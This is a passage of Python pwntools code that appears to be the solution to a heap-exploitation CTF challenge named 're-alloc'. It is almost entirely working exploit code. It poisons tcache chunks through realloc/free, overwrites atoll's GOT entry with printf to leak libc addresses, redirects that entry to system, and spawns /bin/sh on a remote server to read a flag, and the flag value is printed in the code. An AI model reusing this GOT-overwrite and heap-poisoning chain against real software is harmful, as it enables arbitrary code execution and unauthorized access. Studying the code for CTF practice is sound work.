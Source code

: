 ```python=
        alloc(0, size, b'A')
        realloc(0, 0x18, b'A')
        free(0)

def set_target(size, target):
    alloc(0, size, p64(target))
    for i in range(size - 0x20, 0, -0x20):
        realloc(0, i, p64(target))
    for i in range(2):
        alloc(1, size, b'A')
        for j in range(size - 0x20, 0, -0x20):
            realloc(1, j, b'A')
        free(1)
    free(0)


def exploit():
    if len(sys.argv) <= 1:
        input('attach to pid: {}'.format(proc.proc.pid))
    atoll_got = 0x404048
    printf_plt = 0x401076

    overlap(0x58)
    overlap(0x78)
    for i in range(7):
        alloc(0, 0x58, b'A')
        realloc(0, 0x18, b'A')
        free(0)
    set_target(0x58, atoll_got)
    set_target(0x78, atoll_got)

    alloc(0, 0x58, flat(printf_plt))
    printf("%p|%p|%p>>>")
    libc = proc.recvuntil(b'>>>').split(b'|')[2]
    libc = int(libc[:-3], 16)
    if len(sys.argv) <= 1:
        # local
        libc -= 0x101ac9
        system = libc + 0x41c50
    else:
        # remote
        libc -= 0x12e009
        system = libc + 0x52fd0
    log.info('libc: ' + hex(libc))

    # alloc(1, 0x78, p64(system))
    proc.sendlineafter(b': ', b'1')
    proc.sendafter(b':', b'A' * 1)
    proc.sendafter(b':', b'%120p')
    proc.sendafter(b':', p64(system))
    proc.sendlineafter(b': ', b'1')
    proc.sendlineafter(b':', b'/bin/sh')
    proc.sendline(b'cat /home/re-alloc/flag')
    # FLAG{Heeeeeeeeeeeeeeeeeeeeeee4p}


if __name__ == '__main__':
    context.arch = 'amd64'
    connect = 'nc eductf.zoolab.org 10106'
    connect = connect.split(' ')
    if len(sys.argv) > 1:
        proc = remote(connect[1], int(connect[2]))
    else:
```